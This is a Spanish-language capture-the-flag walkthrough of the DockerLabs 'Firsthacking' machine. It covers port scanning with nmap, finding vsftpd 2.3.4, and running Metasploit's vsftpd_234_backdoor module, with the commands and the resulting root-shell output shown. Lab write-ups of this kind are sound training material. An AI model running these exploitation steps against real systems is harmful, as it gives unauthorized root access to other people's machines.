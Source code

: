 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Firsthacking DockerLabs (Very Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip firsthacking.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh firsthacking.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-03 13:15 EST
Nmap scan report for 172.17.0.2
Host is up (0.000025s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.50 seconds
```

Vemos que solo tenemos un puerto abierto que es el `FTP` pero si intentamos entrar de forma anonima, veremos que no nos deja, probemos a buscar algun `exploit` asociado a la version del `FTP`.

## Exploit vsftpd 2.3.4

Si buscamos encontraremos un `exploit` asociado a el, la informacion esta en el siguiente link:

URL = [Exploit vsftpd 2.3.4](https://www.exploit-db.com/exploits/49757)

Vamos a entrar a `Metasploit` para ejecutar el `exploit` desde ese punto.

## Escalate Privileges

### Metasploit

```shell
msfconsole -q
```

Buscamos el `exploit`:

```shell
search vsftpd 2.3.4
```

Info:

```
Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor
```

Vemos que hay uno asociado a esa version, por lo que lo seleccionaremos de la siguiente forma:

```shell
use exploit/unix/ftp/vsftpd_234_backdoor
```

Y ahora lo tendremos que configurar poniendo lo siguiente:

```shell
set RHOSTS <IP_VICTIM>
exploit
```

Info:

```
[*] 172.17.0.2:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 172.17.0.2:21 - USER: 331 Please specify the password.
[+] 172.17.0.2:21 - Backdoor service has been spawned, handling...
[+] 172.17.0.2:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (172.17.0.1:39909 -> 172.17.0.2:6200) at 2025-02-03 13:19:10 -0500

whoami
root
```

Y con esto veremos que ya seremos el usuario `root`, por lo que habremos terminado la maquina.
